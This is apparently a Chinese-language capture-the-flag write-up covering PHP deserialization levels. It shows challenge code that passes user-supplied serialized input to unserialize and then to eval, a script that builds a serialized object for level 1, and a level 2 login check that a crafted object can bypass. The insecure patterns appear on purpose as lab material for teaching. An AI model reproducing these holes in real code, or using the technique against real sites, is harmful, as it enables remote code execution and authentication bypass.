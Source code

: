 ## 第一关

分析：源码上`class a`已经自己调用了`action`方法，所以只需要做实例化就行了

```php
<?php
highlight_file(__FILE__);
class a{
    var $act;
    function action(){
        eval($this->act);
    }
}
$a=unserialize($_GET['flag']);
$a->action();
?>
<br><a href="../level2">点击进入第二关</a>
```

wp：

```php
<?php

class a{
    var $act;
    function action(){
        eval($this->act);
    }
}
$a = new a();
echo serialize($a)

?>
```

## 第二关

分析：实例化`mylogin`类之后，自动调用`login方法`，只要`login方法`返回1，就能通关；

```php
<?php
highlight_file(__FILE__);
include("flag.php");
class mylogin{
    var $user;
    var $pass;
    function __construct($user,$pass){
        $this->user=$user;
        $this->pass=$pass;
    }
    function login(){
        if ($this->user=="daydream" and $this->pass=="ok"){
            return 1;
        }
    }
}
$a=unserialize($_GET['param']);
if($a->login())
{
    echo $flag;
}
?> 
```
